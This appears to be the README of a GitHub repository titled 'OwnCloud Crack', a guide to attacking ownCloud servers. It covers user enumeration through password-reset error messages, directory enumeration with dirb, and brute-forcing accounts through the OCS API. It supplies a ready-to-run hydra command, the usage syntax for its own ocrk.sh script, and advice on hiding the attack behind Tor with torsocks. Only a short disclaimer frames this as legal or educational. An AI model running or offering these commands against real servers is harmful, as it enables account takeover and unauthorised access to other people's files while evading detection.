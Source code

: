======
OwnCloud Crack

A repository for OwnCloud hacking, originally intended only to bruteforce accounts. Later, more ideas came.


====
User enumeration

Forgot password option:
User doesn't exist message on web login: "Couldn't send reset email. Please make sure your username is correct."
User exist message on web login: "The link to reset your password has been sent to your email. If you do not receive it within a reasonable amount of time, check your spam/junk folders. If it is not there ask your local administrator."


====
Folder enumeration

Get the source code from github and the follow the filenames from the core folder.

git clone https://github.com/owncloud/core
cd core
find -follow | sed 's/^\.\///g' > owncloud_files.txt
dirb https://testdomain.org owncloud_files.txt


====
Bruteforce OwnCloud accounts using it's OCS API.

Note that these scripts (ocrk.sh and ocrk.py) were written for educational purposes and you can also use hydra:
hydra domain.org https-post-form "/ocs/v1.php/person/check:login=^USER^&password=^PASS^:<status>ok</status>" -L userlist.txt -P rockyou.txt -vv 

ocrk help with the "-h" switch: ./ocrk.sh -h

Before run, it's more convinient to make it executable: chmod +x ocrk.sh
Else you need to run it like "sh ocrk.sh"

Syntax: ./ocrk.sh <site url> <username> <passwordlist>
Example: ./orck.sh https://www.crkoc.com/ admin rockyou.txt

You can use this over Tor, but the "torify" command is not recommended. Use ". torsocks on" before running.


Use for legal purposes only.
